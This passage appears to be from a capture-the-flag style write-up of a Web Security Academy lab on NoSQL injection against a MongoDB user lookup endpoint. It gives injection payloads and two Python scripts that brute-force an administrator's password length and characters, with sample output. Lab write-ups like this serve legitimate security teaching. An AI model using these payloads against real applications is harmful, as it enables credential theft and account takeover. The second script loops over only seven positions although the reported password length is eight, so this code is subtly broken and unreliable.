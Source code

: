 If the password field exists, you'd expect the response to be identical to the response for the existing field (username), but different to the response for the field that doesn't exist (foo).
### Lab: Exploiting NoSQL injection to extract data

The user lookup functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection.

To solve the lab, extract the password for the administrator user, then log in to their account.

You can log in to your own account using the following credentials: wiener:peter. 

`/user/lookup?user=administrator'&&this.password.length<100||'1'=='2` return
```
{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```
I use this script to get the password's length
```py
import requests

baseurl = "https://ID.web-security-academy.net"
for len in range(1, 100):
    url = (f"{baseurl}/user/lookup?user=administrator'%26%26this.password.length=={len}||'1'=='2")
    cookies = {"session": "..."}
    response = requests.get(url, cookies=cookies)
    if "administrator" in response.text:
        print(f"Password length: {len}")
        break
```
```
$ python3 solve.py
Password length: 8
```
Finding the password: with `/user/lookup?user=administrator'%26%26this.password[0]=='h` return 
```
{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```
So the first character of the password is `h`, I use the following script to find the password
```py
import requests

baseurl = "https://ID.web-security-academy.net"
chars = "abcdefghijklmnopqrstuvwxyz"
password = ""
for pos in range(0, 7):
    for char in chars:
        url = (f"{baseurl}/user/lookup?user=administrator'%26%26this.password[{pos}]=='{char}")
        cookies = {"session": "..."}
        response = requests.get(url, cookies=cookies)
        if "administrator" in response.text:
            print(f"Found character {char} at position {pos}")
            password += char
            break
print(password)
```
## Exploiting NoSQL operator injection to extract data

